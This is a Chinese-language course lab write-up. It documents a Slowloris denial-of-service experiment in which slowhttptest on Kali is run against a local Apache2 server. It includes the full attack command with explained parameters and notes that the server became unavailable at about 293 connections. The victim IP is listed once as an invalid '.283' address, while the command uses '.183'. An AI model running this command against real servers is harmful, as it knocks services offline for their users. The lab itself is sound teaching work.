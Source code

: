   - Slowloris 攻击实验（以apche2服务器为例）

    - 实验环境

    	attacker (kali  + slowhttptest)  `ip 169.254.227.182`
    	victim(apache2 + wireshark)   `ip 169.254.227.283`
    - 实验内容
    	- 首先在attacker上安装slowhttptest,在victim上打开apache2服务
    		`apt install slowhttptest`
    		`service apache2 start`
    	
    	- 查看slowhttptest和apache2版本信息
    		```python
    		#victim上apache2的版本信息
    		apache2 -version
    		Server version: Apache/2.4.34 (Debian)
    		Server built:   2018-07-27T19:37:37
    		
    		#attacker上slowhttptest版本信息
    		slowhttptest version 1.6
    		```
    	
    	- 在attacker使用`slowhttptest -c 500 -H -g -o outputfile -i 10 -r 200 -t GET -u http://169.254.227.183/ -x 24 -p 2` 对victim上的apache2服务进行攻击。
    		
    		```python
    		#参数解释
    		-c 500 = 500 connections
    		 -H   Slowloris mode
    		  -g   Generate statistics
    		  -o outputfile    Output file name
    		  -i 10 wait data 10 seconds
    		   -r 200 200 connections with GET requests
    		   -u url  url to attack
    		   -x 24  data length
    		   -p 2 2 seconds timeout
    		```
    	
    	- 代码开始执行时，屏幕输出显示了攻击状态，刚开始连接数较少时屏幕截图如下,此时连接数较少，服务器仍是可用的，使用浏览器访问`169.254.227.183` 仍能刷新出apache2的首页。
    		
    		![1](https://github.com/CUCCS/2018-NS-Group-Public-echo-helloddos/raw/master/img/1.PNG)
    		
    	- 随着连接数的增加，服务器变为不可用状态，由下图可知当连接数达到293时，服务器已经处于不可用状态，可见victim  apache2服务器最多只能进行293个http连接。
    	此时访问victim`apache2服务`，无响应。
    	